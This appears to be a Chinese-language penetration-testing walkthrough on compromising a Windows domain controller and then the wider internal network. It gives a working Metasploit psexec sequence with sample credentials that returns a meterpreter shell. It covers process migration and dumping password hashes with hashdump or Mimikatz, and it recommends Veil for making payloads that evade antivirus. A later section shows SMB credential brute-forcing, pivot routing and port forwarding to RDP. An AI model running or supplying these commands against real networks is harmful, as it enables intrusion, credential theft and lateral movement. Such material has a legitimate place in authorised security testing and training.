 
#### 登录域控
下面要登录域控，抓取hash

常见的登录域控的方法：
```bash
- 利用IPC上传AT&Achtasks远程执行命令
- 利用端口转发或Socks登录DC的3389
- 登录对方内网一台主机使用PsTools工具包中的PsExec来反弹shell
- 使用msf下的PsExec，psexec_psh, Impacket psexec, pth-winexe, Empire Invoke-Psexec等PsExec类工具反弹shell
- 使用msf下的smb_login反弹shell
- 使用WMI来进行攻击
- 使用PsRemoting posershel远程执行命令
- 其他
```
最常见的是msf下的PsEcex反弹meterpreter(1.msf下的PsEcex模块   2.cuestom模块,建议使用Veil之类的工具来生成免杀的payload)
```bash
use /exploit/windows/smb/psexec
set smbuser test
set smbpass test123
set smbdomain HACKER
set rhost 192.168.0.111
run
# 获得反弹的meterpreter shell之后，先迁移进程，查看DC的系统系统和sesssion控制图
ps
migrate 2166
getuid
sysinfo
sessions    # 查看我们获取的sessions

# 抓hash方法：
- msf自带的hashdump(有system权限才可以)或smart_dump模块导出用户的Hash
- 使用PowerShell的相应模块导出hash
- 使用WCE、Mimikatz等工具
- 其他
```



#### SMB爆破内网
有了DC的密码，接下来只需快速在内网扩大控制权限

- 利用当前获取的DC的账户密码，对整个域控的IP短进行扫描
- 使用SMB下的smb_login模块
- 端口转发或socks代理进内网

```bash
## 先在msf添加路由，然后使用smb_login模块Huo psexec_Scanner模块进行爆破
background
route add 192.168.0.115 255.255.255.0  2    # 目的是访问1192.168.0.115将通过meterpreter的会话 2 来访问：
search smb_login
use auxiliary/scanner/smb/smb_login
set ...
run

# 扫描内网
creds  # 然后获得大量内网服务器的密码，下面就可以畅游内网了

# 可以使用Meterpreter的端口转发，也可以使用Metasploit下的Socks4a模块或第三方软件(这里使用简单的第一种)
portfwd add -l 5555 -p 3389 -r 127.0.0.1
background
```
